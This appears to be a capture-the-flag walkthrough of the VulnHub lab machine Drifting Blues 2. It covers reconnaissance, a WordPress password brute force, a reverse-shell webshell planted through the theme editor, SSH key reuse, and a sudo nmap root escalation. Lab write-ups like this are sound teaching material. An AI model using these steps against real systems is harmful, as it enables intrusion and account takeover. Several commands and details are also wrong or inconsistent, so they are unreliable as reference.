

# Drifting Blues Walkthrough

Buckle up, folks! We're about to dive into the world of hacking with Drifting Blues 2, a vulnerable machine from VulnHub that'll put your skills to the test. And don't worry, White J's got your back - she's like a cool teacher who makes cybersecurity fun (yes, it's possible!).

[Download Drifting Blues 2 here]( https://download.vulnhub.com/driftingblues/driftingblues2.ova)

This machine  difficulty is rated  easy but I'd say it's a fun challenge that'll keep you on your toes. The difficulty level is just right - not too easy, not too hard. It's like a blues song - it's got its ups and downs, but it's always entertaining!


## The Setup

We've got two machines: the victim (running on Oracle Virtual Box) and the attacker (running on VMware Box). To connect them, we'll use a bridged network on VMware and a host-only connection (VIRTUAL BOX ETHERNET ADAPTER) on VirtualBox. First things first, let's find out the IP address using the trusty **ifconfig** command.

```sh
ifconfig
```


**Kali (Attack Machine): 192.168.152.3**

 
We have to run our arp-scan to see all the connected devices on our network using the arp-scan or netdiscover

```sh 
"sudo arp-scan -l"
```

#### Or

``` sh 
"sudo netdiscover -i eth0 -r <Ip address range>.0/24 "
```

 So  we have our **Linux Debian (Victim Machine): 192.168.152.7**


 ## Enumeration

Now that we've got our machines connected, it's time to start digging for those sweet, sweet vulnerabilities. In this section, we'll use our favorite tools to enumerate the Drifting Blues 2 machine and see what secrets it's hiding.

First, we'll use Nmap to scan the machine and get a better understanding of its open ports, services, and operating system. We'll use the following command to get a comprehensive scan:

```sh
"nmap -sV -sc -A- -p- <Victim's Ip address>"
```

**Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-11 14:59 WAT**
**Nmap scan report for 192.168.152.7**
**Host is up (0.00073s latency).**
**Not shown: 65532 closed tcp ports (reset)**
**PORT   STATE SERVICE VERSION**
**21/tcp open  ftp     ProFTPD**
**| ftp-anon: Anonymous FTP login allowed (FTP code 230)**
**|_-rwxr-xr-x   1 ftp      ftp       1403770 Dec 17  2020 secret.jpg**
**22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)**
**| ssh-hostkey:**
**|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA)**
**|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA)**
**|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519)**
**80/tcp open  http    Apache httpd 2.4.38 ((Debian))**
**|_http-title: Site doesn't have a title (text/html).**
**|_http-server-header: Apache/2.4.38 (Debian)**
**MAC Address: 08:00:27:53:21:16 (Oracle VirtualBox virtual NIC)**
**Device type: general purpose**
**Running: Linux 4.X|5.X**
**OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5**
**OS details: Linux 4.15 - 5.8**
**Network Distance: 1 hop**
**Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel**

**TRACEROUTE**
**HOP RTT     ADDRESS**
**1   0.73 ms 192.168.43.185**

**OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .**
**Nmap done: 1 IP address (1 host up) scanned in 35.75 seconds**

Great! Based on the Nmap scan results, we've discovered the following about the Drifting Blues 2 machine:

The operating system is likely a Linux distribution.
We've found two open ports:

- Port 21: File Transfer Protocol (FTP) with anonymous login allowed.-
- Port 80: HTTP Apache 2.4.38 web server-


## FILE TRANSFER PROTOCOL (FTP)
On  port 21, we see a open port that is running FTP and also allows anonymous  login
```sh 
ftp http://<Victim IP address>
ftp> login=anonymous
ftp>password =anonymous
ftp>ls
ftp> get secret.jpg

```

This will download the file to your current directory on your local machine. Below is a snapshot of the picture found


Very secret image indeed but guess what we found, this can also be utilized to upload maliicious file using 
“put ”. That might become very useful for us.


## DIRECTORY BURSTING

Lets look on further for more, hidden directories using gobuster 

### Gobuster
```sh
"gobuster dir -u http://<ip address> -w /usr/share/dirbuster/wordlists/directoy
```

### or Dirb
```sh
dirb http://<IP address>
```


### or ffuf

```sh
 ffuf -u http://<IP address>/FUZZ  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
```


From the three directory bursting we did, we found a hidden html page
**/blog/**

## WEB SCANNING 
We will scan the hidden directories /blog/ for web vunerablities using nikto or WPscan(it is a wordpress page)

```sh
sudo nikto -h http://<IP address>/blog
```


From the above snapshots, the Apache n2.4.38 is outdated 
There is a  Wordpress login available   

## MORE SCANNING 

From the /blog page,we  find some hovering links showing that there ia another domain so the page is not being rendered properly 
we can add this domain using the vi /etc/host
```sh
sudo vi /etc/hosts
```

Press the i key to enter insert mode, which allows you to edit the file.
Add the new domain and IP address to the file in the following format: <IP address> <domain name>.


Reload the /blog page and see if the hovering links are rendered properly. If the page still doesn't load correctly, you may need to check if there are any other issues with the page or the server.


Now we have a nice webpage.Now let us look for more  by Performing  a gobuster scan on the /blog page 
```sh
 gobuster dir -u http://<IP address>/blog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
```


From the above result we see a successfull HTTP Response from  a login page

**/wp-login.php**


Let us visit the login page


Interesting 

we are going to bruteforce the login page to find users and paaswords  with a popular wordlists known as the Rockyou.txt
```sh 
wpscan --url http://driftingblues.box/blog --detection-mode aggressive -e --passwords=/usr/share/wordlists/rockyou.txt

```
We found a user and a password


```sh
user = albert
password =scotlland1
```

Let us try login


## GAINING SHELL

We are  going to try gain shell access on a vulnerable WordPress (WP) page through two different methods:

-- Using the Dashboard Editor --
-- Manually using Metasploit --

### Using the Dashboard Editor
Follow these steps to gain shell access using the WP Dashboard Editor:

Successful login as admin with credentials we found.
Go to the Themes Editor: From the dashboard, navigate to the "Appearance" section and click on "Theme Editor."
In the Themes Editor, locate the 404.php file under the active theme.
Open a new browser tab and search for "pentestmonkey PHP reverse shell." Copy the PHP reverse shell code provided.
Go back to the 404.php file in the Themes Editor and replace its content with the copied PHP reverse shell code.
Add the attacker's IP and listening port: Modify the PHP reverse shell code to include the attacker's IP address and the desired listening port.


Go to terminal and set up the listening port same as the one in the 4o4 page
nc -lvp 4444
Run http://driftingblues.box/blog/index.php/test/page to start the php code
and we got shell!


### Priviledge Escalation

So, we managed to get a shell on the system, but it turns out we're not the big boss in charge. No admin privileges, no root access - we're just a lowly peon(www-data).  We decided to poke around a bit and found ourselves in the home directory. And what do you know, there's a directory called "fredddie" just waiting to be explored.


 We see a secret agent, id_rsa.pub .This  id_rsa contains RSA private key that means we can create a folder and and copy the key
we can login to ssh through this key

```sh
mkdir id_rsa
chmod (400, read only)
ssh freddie@192.168.75.4 -i id_rsa
```


Now we are logged in as administrative user and we got our first flag  !!!. 
WELLDONE HACKERS,, YOU HAVE CAPTURED THE FIRST FLAG(I know it was not particularly easy but you did it.)

## ROOT PRIVILEDGES

We ventured inside as an administartor but it does not stop there - we need to root this machine, to have total  control. It's like getting a promotion at work - you get more access, more power, and more opportunities to make things happen.

Firstly lets see what can our admin(@freddie do)
```sh
sudo -l
```

Freddie has priviledge to run nmap so we will use Nmap binaries to gain root
```sh
TF=$(mktemp)
echo 'os.execute("/bin/sh -ii)' > $TF
sudo nmap --script= $TF
```

And we gained root..Lets go for our beautiful flag
```sh
whoami
ls
cat user.txt
```


### Using Meterspreter

Metasploit is a powerful cybersecurity tool that can be used for both good and evil. It's like a Swiss Army knife for hackers, with a bunch of different tools and features that can help you find and exploit vulnerabilities in computer systems.
One of the coolest features of Metasploit is its ability to create a "meterpreter" session. Think of meterpreter like a secret agent who sneaks into a target system and starts gathering intel.WE are going to snoop around,steals secrets and mess with the system using meterspreter

```sh
msfconsole
search exploit
set options including the LJOST , RHOSTS, LPORTS AND RPORTS
exploit
```


And we gained root so power to us!


That brings us to the end of this walthrough. I am sure we found the challenge both challenging and rewarding, and that we also learned something new along the way

Thank you for your time and i hope you enjoyed this walkthrough!

**whitej**